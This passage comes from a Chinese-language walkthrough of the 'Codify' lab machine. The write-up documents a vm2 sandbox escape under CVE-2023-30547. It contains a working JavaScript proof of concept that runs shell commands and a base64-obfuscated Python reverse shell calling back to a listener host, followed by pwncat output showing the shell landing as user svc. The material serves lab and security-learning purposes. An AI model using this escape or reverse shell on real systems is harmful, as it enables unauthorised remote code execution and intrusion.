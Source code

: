 由此看来，`80` 端口和 `3000` 端口的返回服务是一致的

### 沙盒逃逸

在 `http://codify.htb/limitations` 中，可以得到沙盒中对于函数调用的一些限制

查阅相关资料，可以定位到这个漏洞 [CVE-2023-30547](https://github.com/advisories/GHSA-ch3r-j5x3-6q2m)

使用以下 poc 进行攻击

```javascript
const {VM} = require("vm2");
const vm = new VM();

const code = `
cmd = 'id'
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};

const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync(cmd);
}
`
console.log(vm.run(code));
```

经过测试，可以使用常用的 bash 符号

![img](img/image_20240336-103626.png)

尝试直接反弹 shell

```javascript
cmd = 'echo cHl0aG9uMyAtYyAnaW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoIjEwLjEwLjE2LjIiLDk5OTkpKTtvcy5kdXAyKHMuZmlsZW5vKCksMCk7IG9zLmR1cDIocy5maWxlbm8oKSwxKTtvcy5kdXAyKHMuZmlsZW5vKCksMik7aW1wb3J0IHB0eTsgcHR5LnNwYXduKCIvYmluL2Jhc2giKSc= | base64 -d | bash'
```

![img](img/image_20240337-103727.png)

## User - svc

```bash
┌──(randark ㉿ kali)-[~]
└─$ pwncat-cs -lp 9999
[10:36:41] Welcome to pwncat 🐈!
[10:37:04] received connection from 10.10.11.239:35458
[10:37:13] 10.10.11.239:35458: registered new host w/ db
(local) pwncat$ back
(remote) svc@codify:/home/svc$ whoami
svc
```
